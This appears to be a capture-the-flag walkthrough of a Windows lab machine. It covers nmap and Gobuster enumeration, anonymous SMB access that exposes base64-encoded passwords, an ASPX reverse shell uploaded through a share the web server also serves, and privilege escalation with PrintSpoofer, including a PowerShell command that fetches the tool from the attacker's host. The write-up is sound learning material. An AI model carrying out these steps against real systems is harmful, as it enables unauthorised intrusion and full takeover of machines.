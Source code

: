 # Relevant 

##### Difficulty: [ Medium ]

**Tags:** `Windows`,  `nmap`,  `smb`,  `Gobuster`,  `reverse shell`,  `token impersonation`,  `PrintSpoofer`

---

##### Written: 23/10/2021

##### IP address: 10.10.72.53

---

### [ User Flag ]

We first start off with a basic **nmap** scan on the target machine. This will only target the top 1000 ports.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that the following ports are open:

**Port 80** - HTTP Web server

**Port 135** - Windows RPC

**Port 139** - SMB Server

**Port 445** - SMB Server

**Port 3389** - Microsoft Terminal Services

<br>

Let's first take a look at the HTTP server.

<img style="float: left;" src="screenshots/screenshot2.png">

Doing some manual enumeration of the website, I was unable to find anything of interest. The enumeration included checking of the source code and other low-hanging fruit such as the robots.txt file. Clickable elements within the webpage also only brought us to other websites that were not of use to us.

Next, I tried running a **Gobuster** directory scan on the website, but unfortunately I was unable to find any hidden directories.

<br>

Hitting a dead end, I decided to move on to enumerating the Samba server that is running on port 139 and 445.

At first, I tried to use a Samba enumeration tool called **enum4linux**, but it was unable to scan the server.

``` 
enum4linux 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I tried using **smbclient** to list out the shares that were accessible on the server. This can be done with the `-L` tag.

```
smbclient -L 10.10.72.53
```

<img style="float: left;" src="screenshots/screenshot4.png">

Nice! Looks like there are a few shares that we can potentially log into if they have **anonymous access** enabled. I tried to log into all of the shares, but the only shares that I could successfully log into were the **IPC$** and **nt4wrksv** shares.

---

*Note: While enum4linux did not work, we can alternatively use nmap to run a smb enumeration scan on our target. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

While the **IPC$** share did not contain anything, the **nt4wrksv** share actually contained a **passwords.txt** file.

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

I downloaded the text file onto my local machine. The contents are:

<img style="float: left;" src="screenshots/screenshot6.png">

Looks like the text file contained user passwords that were **base64-encoded**. After decoding them, we get the following user credentials:

* **Bob: !P@$$W0rD!123**

* **Bill: Juw4nnaM4n420696969!$$$**

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

<br>

Hitting yet another dead end, I decided to run a **full nmap** scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild :)*

**Results:**

<img style="float: left;" src="screenshots/screenshot7.png">

Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected:

**Port 49663** - Another HTTP server

**Port 49667** - Windows RPC

**Port 49669** - Windows RPC

<br>

What caught my attention was the HTTP server running on port **49663**. Let's take a look:

<img style="float: left;" src="screenshots/screenshot8.png">

This brings us to the same webpage as before.

However, running a **Gobuster** directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The **/nt4wrksv** entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory! This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

<img style="float: left;" src="screenshots/screenshot9.png">

As this directory has the same name as the Samba share from earlier, I assumed that directory is actually bringing us to the  share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

<img style="float: left;" src="screenshots/screenshot10.png">

Sure enough, the passwords.txt file in the SMB share was displayed! This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via the webpage. With this, we can open up a reverse shell and gain a foothold into the target machine.

<br>

<img style="float: left;" src="screenshots/screenshot11.png">

Using **Wappalyzer** on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**. As such, we will have to upload an **ASPX reverse shell** file. I found such a file here: https://github.com/borjmz/aspx-reverse-shell

Using `smbclient`, I then uploaded the reverse shell into the **nt4wrksv** share. 

<img style="float: left;" src="screenshots/screenshot12.png">

Once that was done, I opened up a netcat listener and opened the reverse shell by accessing **/nt4wrksv/shell.aspx**.

<img style="float: left;" src="screenshots/screenshot13.png">

And we're in!

<br>

With that, we can obtain the user flag that is located in the **Desktop** of the user **Bob**:

<img style="float: left;" src="screenshots/screenshot14.png">

---

### [ Root Flag ]

Next, we have to find a way to escalate our privileges. Let's first check out the privileges that are enabled on our current account. We can do this with the `whoami /priv` command:

<img style="float: left;" src="screenshots/screenshot15.png">

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the **PrintSpoofer** tool to escalate our privileges. (https://github.com/dievus/printspoofer)

*More information on how PrintSpoofer works can be found here: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/*

<br>

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine. The command to download the tool is:

```
powershell "Invoke-WebRequest -UseBasicParsing <YOUR_IP_HERE>/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges.

<img style="float: left;" src="screenshots/screenshot16.png">

And we have successfully escalated our privileges! With that, we can obtain the root flag that is located in the **Desktop** of the **Administrator** account:

<img style="float: left;" src="screenshots/screenshot17.png">

